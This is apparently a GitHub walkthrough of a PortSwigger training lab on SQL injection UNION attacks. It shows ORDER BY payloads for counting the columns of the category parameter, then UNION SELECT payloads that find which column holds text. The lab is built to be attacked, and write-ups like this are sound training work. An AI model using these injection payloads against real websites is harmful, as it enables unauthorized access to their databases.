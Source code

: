 ## Welcome, my friend. Today we will start the [9. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/b1f268b3-8b43-49bf-a9ff-34f204fb2feb)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/3a8dcbbd-ff12-405f-9f9b-a8772fa27481)


### We discover this page and find category paramater ```/filter?category=```.
### Let's test and inject this param:

```
filter?category=' ORDER BY 1--
```
![image](https://github.com/user-attachments/assets/706c9d7b-1c42-443a-b2d8-d085d8b53867)


### Ok, we find one column , Let's go guess ```2``` columns:

```
filter?category=' ORDER BY 2--
```

![image](https://github.com/user-attachments/assets/37b16d31-db77-4c2f-812e-282728e37c7e)

### Ok, no there 2 columns , Let's go guess ```3``` columns:

```
filter?category=' ORDER BY 3--
```

![image](https://github.com/user-attachments/assets/fb4971a2-daa5-457b-9eb8-a61e48266a7b)


### Ok, no there 3 columns , Let's go guess ```4``` columns:

```
filter?category=' ORDER BY 4--
```

![image](https://github.com/user-attachments/assets/28d840c4-8826-4fdb-ac75-2fd0a1fca86b)

## Ok we have 3 columns.

### Now we need print ```kKpARL``` by through following payload:

```
filter?category=' UNION SELECT 'kKpARL',NULL,NULL--
```

![image](https://github.com/user-attachments/assets/5bba44ed-edaa-4666-af5e-fae9485706c5)

### OK , the first is number column don't string, Try second column:

```
filter?category=' UNION SELECT NULL,'kKpARL',NULL--
```

![image](https://github.com/user-attachments/assets/9b3787e3-f330-4a6b-8fad-556260f9109f)

### Wow we solved this lab but let's know third column is string or number:

```
filter?category=' UNION SELECT NULL,NULL,'kKpARL'--
```

![image](https://github.com/user-attachments/assets/e320e953-0a28-43ca-8dea-6ca404a0a693)

### Hmm the third column is number column.
-------------------------


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
